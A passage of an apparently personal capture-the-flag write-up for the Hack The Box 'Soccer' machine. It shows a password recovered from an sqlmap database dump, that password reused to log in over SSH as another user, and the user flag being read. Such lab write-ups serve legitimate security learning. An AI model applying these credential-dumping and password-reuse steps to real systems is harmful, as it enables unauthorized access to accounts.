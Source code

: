 Looking on the results I can find my new user&password and also other entries! 

{% highlight shell %}
xabaras@helix:~$ cat /home/xabaras/.sqlmap/output/soc-player.soccer.htb/dump/soccer_db/accounts.csv.7
password
PlayerOftheMatch2022
xabaras
{% endhighlight %}

When we found password we can try simple password-reuse technics to see if the same password is used for multiple users/services, etc.


{% highlight shell %}

xabaras@helix:~/workdir/ctf/htb/soccer.htb$ ssh player@soccer.htb
player@soccer.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 17 22:54:28 UTC 2023

  System load:           0.0
  Usage of /:            71.1% of 3.84GB
  Memory usage:          27%
  Swap usage:            0%
  Processes:             235
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:eee3


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb 17 21:52:56 2023 from 10.10.14.174
player@soccer:~$ 

{% endhighlight %}

:) Additional and more powerful shell obtained with a the user-flag! 

{% highlight shell %}

player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ cat /home/player/
.bash_history     .bashrc           .gnupg/           .profile          dstat_socccer.py  snap/             
.bash_logout      .cache/           .local/           .viminfo          dstat_soccer.py   user.txt          
player@soccer:~$ cat /home/player/user.txt 
a53fee5310e0XXXXXXX
player@soccer:~$ 

{% endhighlight %}
